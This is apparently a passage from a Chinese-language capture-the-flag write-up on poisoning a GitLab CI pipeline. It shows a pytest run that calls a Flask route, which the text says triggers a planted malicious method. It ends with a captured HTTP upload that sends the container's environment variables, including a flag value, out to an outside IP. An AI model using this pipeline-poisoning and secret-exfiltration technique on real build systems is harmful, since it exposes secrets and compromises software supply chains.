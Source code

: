 ```plain
pytest -rA test_hello.py
```

而test\_hello.py中访问了flask的hello函数：

```plain
import pytest
from app import app as flask_app


@pytest.fixture()
def app():
    yield flask_app


@pytest.fixture()
def client(app):
    return app.test_client()


def test_hello(client):
    response = client.get("/hello")
    assert b"Hello, User" in response.data
```

因此触发了恶意方法：

```plain
def hello():
    return greet.hello('User')
```

最后两个pipeline都构建成功就可以得到flag，如果中途出了什么问题可以以root登上gitlab手动启动一下pipeline看看什么问题。

```plain
POST / HTTP/1.1
Host: 10.207.127.144:39502
User-Agent: curl/7.88.1
Accept: */*
Content-Length: 720
Content-Type: multipart/form-data; boundary=------------------------848315760974512a

--------------------------848315760974512a
Content-Disposition: form-data; name="file"; filename="flag.txt"
Content-Type: text/plain

HOSTNAME=bdc53e195baf
PYTHON_VERSION=3.8.18
PWD=/app
FLAG11=xxx
PYTHON_SETUPTOOLS_VERSION=57.5.0
HOME=/root
LANG=C.UTF-8
GPG_KEY=E3FF2839C048B25C084DEBE9B26995E310250568
SHLVL=1
PYTHON_PIP_VERSION=23.0.1
PYTHON_GET_PIP_SHA256=22b849a10f86f5ddf7ce148ca2a31214504ee6c83ef626840fde6e5dcd809d11
PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/c6add47b0abf67511cdfb4734771cbab403af062/public/get-pip.py
PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_=/usr/bin/env

--------------------------848315760974512a--
```
